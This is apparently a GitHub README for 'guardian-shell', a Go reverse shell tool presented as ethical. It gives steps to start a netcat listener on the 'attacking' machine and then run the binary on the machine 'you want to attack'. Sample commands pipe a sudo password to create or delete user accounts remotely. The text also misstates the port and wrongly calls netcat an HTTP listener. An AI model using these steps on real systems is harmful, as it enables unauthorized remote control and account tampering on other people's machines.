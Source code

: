 ## what is it ?

Guardian-shell is a  secure reverse shell tool written in Go. Designed with a focus on responsible use and ethical practices, it facilitates secure communication between authorized parties. Guardian-shell empowers you with the ability to remotely execute commands on target machines, for easy system management, monitoring and penetration testing. 

## usage

step 1 : from your (attacking) machine run `nc -lvp 20090`
what is the above command ?
    "-l": Tells netcat to operate in listening mode, waiting for incoming connections.
    "-v": Enables verbose mode, providing more detailed output about the connections.
    "-p": Specifies the port to listen on, in this case, port 20090.

So, when you run this command, netcat will listen for incoming connections on port 2009 and display verbose output about the connections.
In other words, with out the need for you to write http server, netcat (available in linux os) will give you the http server listner. 

step 2 : run guardian-shell binary on the machine you want to attack. 
copy from this repo the binary and paste it on the machine you want to attack and run it `./guardian-shell`
on success, it will give you response `Connected to the reverse guardian listner!` or it will wait for listner.

## sample commands

After deploying this app, you can test it by running the following command to see how dangerous it is.

to add new user in remote linux server
```
echo ur_sudo_password | sudo -S useradd testuser; echo new_password_123 | passwd testuser
```

to delete user from remote linux server
```
echo ur_sudo_password | sudo -S userdel testuser
```
## to do
file transfer 

## on attack machine 
![image](https://github.com/avvvet/guardian-shell/assets/25494022/23a2039c-0d53-4fa9-9551-0e0bf3eed47a)

## on the remote machine to be attacked
![image](https://github.com/avvvet/guardian-shell/assets/25494022/bcc2d45a-f4ec-49ad-9def-8c46bad02074)
